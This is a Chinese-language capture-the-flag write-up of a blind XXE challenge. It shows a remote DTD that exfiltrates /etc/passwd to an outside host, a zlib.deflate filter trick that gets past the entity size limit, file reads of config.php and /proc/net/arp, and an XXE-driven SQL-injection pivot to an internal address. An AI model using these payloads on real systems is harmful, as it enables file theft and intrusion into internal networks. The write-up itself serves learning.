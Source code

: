 comment处有被userdecode处理过，试一下xml头，就可以看到有报错，考点应该就是xxe。

`<?xml version="1.0" encoding="utf-8"?>`

![](https://p5.ssl.qhimg.com/t01933a8569390d8a27.jpg)

通过盲xxe，可以获取到文件。

远程服务器布置一个1.xml

```
<!ENTITY % payload SYSTEM "php://filter/read=convert.base64-encode/resource=/etc/passwd">
<!ENTITY % int "<!ENTITY &#37; trick SYSTEM 'http://ip/test/?xxe_local=%payload;'>">
%int;
%trick;
```
comment再进行调用
```
<?xml version="1.0" encoding="utf-8"?><!DOCTYPE root [<!ENTITY % remote SYSTEM "http://ip/xxe/1.xml"> %remote; ]></root>
```
获取一下`/var/www/52dandan.cc/public_html/config.php`
```
<?php
define(BASEDIR, "/var/www/52dandan.club/");
define(FLAG_SIG, 1);
define(SECRETFILE,'/var/www/52dandan.com/public_html/youwillneverknowthisfile_e2cd3614b63ccdcbfe7c8f07376fe431');
....
?>
```
拿到了一半的flag
```
Ok,you get the first part of flag : 5bdd3b0ba1fcb40
then you can do more to get more part of flag
```
这里出现了一个问题，就是获取`/var/www/52dandan.cc/public_html/common.php`的时候出现了Detected an entity reference loop错误。

![](https://p3.ssl.qhimg.com/t019552d837e8c8502c.jpg)

查了一下资料，libxml解析器默认限制外部实体长度为2k，没法突破，只能寻找一下压缩数据方面的。php过滤器中提供了一个zlib.inflate压缩数据。

```
压缩：echo file_get_contents("php://filter/zlib.deflate/convert.base64-encode/resource=/etc/passwd");
解压：echo file_get_contents("php://filter/read=convert.base64-decode/zlib.inflate/resource=/tmp/1");
```
这样就可以获取到common.php文件源码了!

![](https://p3.ssl.qhimg.com/t01f696f6826e2c62f8.jpg)

再获取一下机器的一些ip信息，其中arp信息中保留了一个内网地址
```
/proc/net/arp
/etc/host
```
```
IP address       HW type     Flags       HW address            Mask     Device
192.168.223.18   0x1         0x2         02:42:c0:a8:df:12     *        eth0
192.168.223.1    0x1         0x2         02:42:91:f9:c9:d4     *        eth0
```
开放了一个80端口，test.php的shop参数存在注入
```
<!ENTITY % payload     SYSTEM     "http://192.168.223.18/test.php?shop=3'-(case%a0when((1)like(1))then(0)else(1)end)-'1">
<!ENTITY % int "<!ENTITY &#37; trick SYSTEM 'http://ip/test/?xxe_local=%payload;'>">
%int;
%trick;
```